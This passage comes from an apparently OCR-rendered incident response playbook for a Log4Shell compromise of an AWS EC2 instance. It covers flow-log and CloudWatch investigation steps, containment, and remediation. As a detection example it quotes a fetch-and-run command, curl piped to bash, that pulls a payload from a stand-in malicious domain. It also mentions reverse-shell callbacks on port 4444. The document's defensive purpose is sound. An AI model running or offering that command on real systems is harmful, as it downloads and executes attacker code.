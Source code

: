- **Correlate with AWS Config Data**:
  - Confirm the IAM role assigned to `EC2-App-Prod-01` and determine if it provides privileges that could be used to create or modify security groups and access S3 resources.

#### **Step 3: Confirm Malicious Outbound Connections**

- **Examine VPC Flow Logs for Connection Patterns**:
  - Track connections to the suspicious IPs and confirm if data was exfiltrated or if these were reverse-shell callbacks. Monitor for repeated attempts to connect over commonly used C2 ports (e.g., 4444).
  
- **Check for Known C2 Domains/IPs**:
  - Cross-reference the external IP addresses with threat intelligence feeds to determine if they are associated with known threat actors exploiting Log4Shell.

#### **Step 4: Validate Malicious Payload Execution**

- **Analyze CloudWatch and OS Logs for Suspicious Processes**:
  - Investigate CloudWatch logs to confirm the payload executed via `curl` and `wget` (e.g., `curl http://malicious-domain.com/payload.sh | bash`). Determine if additional commands were executed.
  
- **Identify Files and Persistence Mechanisms**:
  - Check if the payload installed additional scripts or created persistence mechanisms (e.g., new cron jobs or startup scripts) on `EC2-App-Prod-01`.

<div class="neon-line"></div>

### **Containment and Remediation Actions**

1. **Immediate Actions:**
   - **Isolate `EC2-App-Prod-01` from the Network** to prevent further outbound connections or inbound exploitation attempts.
   - **Revoke Temporary IAM Credentials** assigned to `EC2-App-Prod-01` if any were compromised by the attacker via metadata API access.
   - **Delete Unauthorized Security Groups** to close any SSH access opened by the attacker and restrict further inbound access.

2. **Remediation:**
   - **Patch Log4j on Affected Application**: Update the Java application on `EC2-App-Prod-01` with the latest Log4j version to mitigate CVE-202

1-44228.
   - **Rotate All IAM Credentials** for accounts accessed during the incident, including temporary credentials obtained from the instance metadata service.
   - **Deploy Web Application Firewall (WAF) Rules**: Set up WAF rules to block suspicious patterns commonly associated with Log4Shell, such as JNDI lookups.

3. **Long-Term Security Improvements:**
   - **Enforce Strict IAM Role Permissions**: Review and apply least privilege principles to the IAM roles associated with EC2 instances.
   - **Enable VPC Flow Logs and GuardDuty**: Ensure that network traffic and threat monitoring are active across critical instances.
   - **Implement Logging and Monitoring for Application Vulnerabilities**: Use tools like Amazon Inspector to identify vulnerable applications and configurations automatically.
